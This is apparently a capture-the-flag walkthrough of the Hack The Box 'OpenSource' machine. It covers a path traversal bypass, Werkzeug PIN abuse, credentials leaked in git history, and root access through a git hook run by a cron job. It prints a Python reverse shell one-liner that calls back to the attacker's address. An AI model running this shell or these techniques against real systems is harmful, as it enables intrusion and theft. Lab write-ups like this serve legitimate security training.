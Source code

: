 # Opensource

## Introduction:

 - Level; Easy
 - OS: Linux
 - Link: https://app.hackthebox.com/machines/OpenSource

## Steps:
 - I ran nmap in the server and found that it has the following ports:
     - 22 ssh opened
     - 80 http opened
     - 30000 ppp filtered
 - I downloaded the source code from the provided zip file.
 - After reading the source code I found that the folder contains `.git`, so I activated it.
 - Checking old commits, I found that an old file `.vscode/settings.json` which contains: 

```json
{
  "python.pythonPath": "/home/dev01/.virtualenvs/flask-app-b5GscEs_/bin/python",
  "http.proxy": "http://dev01:Soulless_Developer#2022@10.10.10.128:5187/",
  "http.proxyStrictSSL": false
}
```

So we got `dev01` as a user and `Soulless_Developer#2022` as a password.

 - Going back to the website, and after reading the code, I was able to read files from the server `path traversal` after escaping `../`:
     - First, I was using `..\/`, but I wasn't able to read some files.
     - After searching for another bypass for the filter, I found `..//` which solved the problem.
 - After causing an error in the website, I found that it's using `Werkzeug` so the thing I have to do is get a console pin:
    - After reading about how to calculate the PIN, I tried using an script from hacktricks: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
    but the generated pin wasn't correct.
    - I started the docker container in my local machine and tried getting each parameter used when generating the PIN.
     - I got all the parameters, but it still wasn't correct.
     - After reading `Werkzeug` source code and googling, I found out that the hacktricks script is old and the PIN generating logic has changed in recent versions.
     - After getting the right parameters from the box server, here is the script I used : [generate-pin.py](generate-pin.py)
 - After generating the pin and spawning a console, I opened a reverse shell so I can get into the machine:

 ```py
 import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.49",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh");
 ```

 - I tried accessing the port 3000 using `127.0.0.1:3000` but it wasn't working.
 - I tried the same port with the machine address from the docker interface: `172.17.0.1:3000` using `wget` and I got a html response.
 - I searched for a way to forward the traffic from the server to my local machine so I could access the website, and I found `chisel`.
 - I opened a reverse connection between my machine and the server and I was able to access the hidden website, and it was `Gitea` server.
 - I logged in using the credentials I found before in the settings file and I then I found a repository named `home-backup` and it contains ssh keys, so I used the private key to login to ssh.
 - From there I was able to read user.txt file which contain the user flag.
 - Using scp, I tried copying linpeas to the server and running it, but nothing that interesting was found.
 - I searched for another tool and I found `pspy`, so I uploaded it to the server and read its result and I found out that the server was running a cron job as a root each 1 minute, and the repository was the one in `home/dev01`, so I searched about how to exploit this thing and I found out about `git hooks`.
 - From there, I added a hook which is executed before making a commit, which copies the files of /root to a directory in `/home/dev01` and make it accessible.
 - Finally, I waited for a minute and got root.txt file, which contains the root flag.

## Things I learned:
 - Don't be a script kiddy, try to understand what the script/payload is doing and try to understand the source code of libraries you are exploiting.
 - check everything and try different ways when searching for a solution to a problem.